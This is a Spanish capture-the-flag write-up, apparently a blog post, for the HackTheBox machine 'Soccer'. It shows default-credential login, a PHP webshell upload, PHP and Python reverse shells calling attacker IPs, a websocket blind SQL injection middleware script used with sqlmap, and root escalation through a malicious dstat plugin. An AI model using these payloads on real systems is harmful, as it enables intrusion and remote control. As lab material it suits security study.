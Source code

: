 ```yaml
---
title: "HackTheBox - Soccer"
layout: post
date: 2023-02-17 14:00
image: /assets/images/Soccer/logo.png
headerImage: true
tag:
- htb
- hacking
- writeup
- Tiny
category: blog
description: Writeup de Soccer
---
```


# Soccer

Dificultad: Easy
OS: Linux

En este writeup, voy a demostrar paso a paso como conseguir el root en la máquina Soccer

## Enumeración

Primero realizamos un escaneo inicial de puertos mediante la herramienta `nmap` para determinar los puertos abiertos de la máquina:

```text
❯ sudo nmap -Pn -p- --min-rate 100 10.10.11.194 -T5 --open
[sudo] password for maindavis: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-13 17:58 CET
Nmap scan report for 10.10.11.194
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```

Después de escanear la máquina, hemos encontrado tres puertos abiertos:

-   `22/tcp`: SSH
-   `80/tcp`: HTTP
-   `9091/tcp`: Desconocido

Vamos a empezar investigando la página web.

![](../assets/images/Soccer/0.png)

En esta página web, encontramos solo texto y algunas imágenes, así que ejecutamos un gobuster para encontrar otros posibles directorios.

![](../assets/images/Soccer/1.png)

Gracias a esto, encontré un directorio llamado "Tiny" que contiene un login de "Tiny File Manager".

![](../assets/images/Soccer/2.png)

Buscamos a ver si existen credenciales por defecto y nos encontramos con "admin:admin@123".

![](../assets/images/Soccer/3.png)

## Explotación

Con esto conseguimos acceso, y vemos que podemos subir archivos por lo que vamos a subir una webshell en php.

![](../assets/images/Soccer/4.png)

Entramos en la sección de upload arriba a la derecha y subimos nuestra webshell.

![](../assets/images/Soccer/5.png)

Entramos en http://socer.htb/tiny/uploads/webshell.php y vemos que ya tenemos ejecución de comandos como www-data.

![](../assets/images/Soccer/6.png)

## Escalada de privilegios - User

Lanzamos una reverse shell (En este caso ha funcionado la de php).

```bash
php -r '$sock=fsockopen("10.10.14.72",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Y la convertimos en una shell interactiva con lo siguiente:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ahora que tenemos una shell funcional ejecutamos linpeas.sh para que nos haga un escaneo del servidor y planear un vector para la escalada de privilegios.

![](../assets/images/Soccer/7.png)
![](../assets/images/Soccer/8.png)

Y encontramos que existe un subdominio llamado **soc-player.soccer.htb**, lo añadimos a /etc/hosts y entramos.

Nos encontramos con una web que ahora tiene una barra de opciones arriba a la izquierda, las que más nos interesan son la de **Login** y **Signup**.

![](../assets/images/Soccer/9.png)

Creamos una cuenta e iniciamos sesión para ver como es por dentro.

![](../assets/images/Soccer/10.png)

Nos encontramos una aplicación donde ingresando un número de ticker verificar si existe o no, si paramos la petición con burpsuite tendremos lo siguiente

![](../assets/images/Soccer/11.png)

También podemos apreciar que esta es la aplicación que tienen en el puerto 9091 y leyendo el código nos lo confirma aún más, y nos da la dirección al websocket que la contiene.

![](../assets/images/Soccer/12.png)

Lo primero que se viene a la cabeza es un sqlinjection.
En esta página https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html nos encontramos un post de un blog sobre esto, donde viene el script que voy a usar


```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091" # Cambiamos ws_server por el que queremos vulnerar

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message # Cambiamos data

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Ejecutamos y vemos que nos ha creado una web local donde por GET podemos meter el parámetro que queremos ver si es vulnerable 

![](../assets/images/Soccer/13.png)

Lanzando SQLMAP vemos que existe una base de datos llamada soccer_db que contiene una tabla llamada accounts que contiene lo siguiente

![](../assets/images/Soccer/14.png)

Siendo el usuario test el que creamos anteriormente

Entramos por ssh con las creds player:PlayerOftheMatch2022 y ya tenemos el usuario

![](../assets/images/Soccer/15.png)

## Escalada de privilegios - Root

Lanzamos linpeas y nos encontramos con lo siguiente
```text
permit nopass player as root cmd /usr/bin/dstat
```
![](../assets/images/Soccer/16.png)
Vemos que podemos ejecutar como root dstat, una aplicación que parece que es para monitorizar la CPU
![](../assets/images/Soccer/17.png)
Si entramos en man dstat podemo ver que podemos injectar codigo python haciendolo pasar por un plugin

![](../assets/images/Soccer/18.png)

Creamos un archivo .py con una reverse shell de python y lo copiamos a /usr/local/share/dstat (importante que el nombre sea dstat_name.py siendo name el nombre del plugin, en este caso shell)

```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.42",4242));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

Y ejecutamos la aplicacion con sudo y el plugin malicioso

```bash
doas -u root /usr/bin/dstat --shell
```

Con esto ya tendríamos una shell root y solo nos queda leer root.txt

![](../assets/images/Soccer/19.png)

